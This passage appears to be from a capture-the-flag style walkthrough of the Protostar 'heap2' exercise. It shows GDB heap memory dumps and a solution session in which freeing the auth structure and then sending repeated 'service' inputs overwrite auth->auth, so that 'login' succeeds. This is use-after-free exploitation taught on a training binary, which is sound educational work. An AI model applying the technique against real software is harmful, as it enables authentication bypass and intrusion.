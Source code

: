 ```shell
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$45 = {name = " AAAAAAA\n\000\000\000\021\000\000\000 BBBBBBB\n\000\000\000\021\000\000", auth = 1128481568}
----------service---------------------------------------------------------------
$46 = 0x804c028 " CCCCCCC\n"
[ auth = 0x804c008, service = 0x804c028 ]
```

As you can see, we have successfully overwritten the **auth->auth**, now if we trigger the `login` command, we will get the successful string.

```shell
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff864) at heap2/heap2.c:20
20      in heap2/heap2.c
0x804c000:      0x00000000      0x00000011      0x41414120      0x41414141
0x804c010:      0x0000000a      0x00000011      0x42424220      0x42424242
0x804c020:      0x0000000a      0x00000011      0x43434320      0x43434343
0x804c030:      0x0000000a      0x00000fd1      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$11 = {name = " AAAAAAA\n\000\000\000\021\000\000\000 BBBBBBB\n\000\000\000\021\000\000", auth = 1128481568}
----------service---------------------------------------------------------------
$12 = 0x804c028 " CCCCCCC\n"
[ auth = 0x804c008, service = 0x804c028 ]
```

### Solution

Based on the analysis above, the solution for this level can be crafted as follows:

```shell
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAAAAA
[ auth = 0x804c008, service = 0x804c008 ]
service BBBBBBB
[ auth = 0x804c008, service = 0x804c018 ]
service CCCCCCC
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c028 ]
```
